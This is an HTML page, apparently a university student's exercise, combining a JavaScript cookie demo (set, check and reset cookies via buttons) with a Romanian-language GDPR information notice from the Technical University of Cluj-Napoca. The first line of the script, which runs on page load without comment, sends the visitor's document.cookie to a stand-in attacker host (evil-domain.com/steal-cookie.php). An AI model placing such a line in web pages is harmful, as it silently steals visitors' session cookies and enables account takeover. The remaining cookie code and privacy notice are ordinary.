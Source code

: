 <script> 
(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
document.cookie = "name=henrietta"; 
document.cookie = navigator.appCodeName;
document.cookie = navigator.appVersion;  

function doOnce() { if (!document.cookie.split('; ').find(row => row.startsWith('doSomethingOnlyOnce'))) { alert(document.cookie); 
document.cookie = "doSomethingOnlyOnce=true; expires=Fri, 31 Dec 9999 23:59:59 GMT"; } } 
function resetOnce() { document.cookie = "doSomethingOnlyOnce=; expires=Thu, 01 Jan 1970 00:00:00 GMT"; } //ES5 
if (document.cookie.split(';').some(function(item) { return item.indexOf('reader=1') >= 0 })) { console.log('The cookie "reader" has "1" for value') } //ES2016 
if (document.cookie.split(';').some((item) => item.includes('reader=1'))) { console.log('The cookie "reader" has "1" for value') } </script> 
<body>
  Bun venit pe pagina cu prajituri!<br>
  <button onclick="doOnce()">Vezi cookies</button><br>
  <button onclick="resetOnce()">Reseteaza buton cu cookie</button><br>
  <a href="https://didatec-my.sharepoint.com/:w:/r/personal/szilagyi_he_henri_utcluj_didatec_ro/_layouts/15/Doc.aspx?sourcedoc=%7B02175963-161C-4C61-9E55-04E30A59C7D6%7D&file=Analiza%20de%20impact.docx&action=edit&mobileredirect=true&wdNewAndOpenCt=1621792338112&ct=1621792338112&wdPreviousSession=0b3ed004-2258-4e6a-bb7d-185826811b79&wdOrigin=OFFICECOM-WEB.MAIN.UPLOAD">Acceseaza analiza de impact</a><br>
Szilagyi Henrietta-Andrea
  <br>
<b><i>Nota de informare cu privire la procesarea datelor cu caracter personal a unui student la Univ Tehnica din Cluj Napoca, masterul de eActivitati, care are inclus si un stagiu de mobilitate Erasmus in UK:</i></b><br>
Conform regulamentului UE 679/2016, UTCN este un operator de date.<br>
Date de contact UTCN: Str. C-tin Daicoviciu, nr. 15, sala , 400020 Cluj Napoca, Romania<br>
Telefon: 0264-401.309<br>
E-mail: Date.Personale@staff.utcluj.ro<br>
Colectam/prelucram datele dumneavoastra<br>
-in cursul admiterii, prin formular, iar apoi ca si studenti (masteranzi)<br>
-informatiile folosite:<br>
•	Nume, prenume<br>
•	Adresa<br>
•	CNP<br>
•	Email<br>
•	IBAN<br>
•	Adeverinta medicala<br>

-informatii folosite pentru:<br>
•	gestionarea studentilor<br>
•	cazari camine<br>
•	transmitere informatii prin email<br>
•	preluare burse<br>
•	decontare de abonamente<br>
-destinatari ai datelor cu caracter personal:<br>
•	Facultatea.... care este gazda stagiului Erasmus in UK<br>
•	Ministerul Educaţiei Naţionale, Ministerul Tineretului și Sportului;<br>
•	Instituţii publice: CASMB, Autorităţi locale, Poliţia Română șamd;<br>
•	Alte instituții de învătământ superior naţionale sau internaţionale;<br>
•	Instituții naţionale sau europene ce finanțează proiecte de cercetare;<br>
•	Organizații comerciale: bancare, unităţi de cazare, unităţi alimentare șamd;<br>
•	Asociații sau societăți ale studenților;<br>
•	Furnizori servicii IT.<br>

-drepturi:<br>
•	dreptul la informare. Aveți dreptul să primiți informații despre cum și de ce prelucrăm datele dumneavoastră personale;<br>
•	dreptul de retragere a consimţământului, în cazul în care prelucrarea se bazează pe articolul 6(1)a sau pe articolul 9(2)a;<br>
•	dreptul de a obţine din partea Universitaţii o confirmare că se prelucrează sau nu date cu caracter personal care vă privesc şi, în caz afirmativ, acces la datele respective;
•	dreptul de rectificare a datelor cu caracter personal care vă privesc;<br>
•	dreptul de ştergere a datelor cu caracter personal care vă privesc sau de restricţionare a prelucrării, sub rezerva anumitor excepții;<br>
•	dreptul la portabilitatea datelor, dacă prelucrarea se bazează pe consimţământ în temeiul articolului 6(1)a, sau pe articolului 9(2)a, sau pe un contract în temeiul articolului 6(1)b;<br>
•	dreptul de a vă opune prelucrărilor, sub rezerva anumitor excepții.<br>
-locatia si durata de stocare: Datele cu caracter personal colectate sunt stocate centralizat în spaţii și pe echipamente situate în cadrul Universitaţii Tehnice din Cluj-Napoca. Datele pot fi stocate și la nivel local de către personalul facultăţilor, în e-mail-uri, în documente electronice stocate pe diferite echipamente sau pe documente în format hârtie. Durata de stocare pentru fiecare categorie de date cu caracter personal este în conformitate cu cerinţele legale, cu reglementările interne ale Universitaţii și a celor mai bune practici din acest domeniu.<br>

</body>
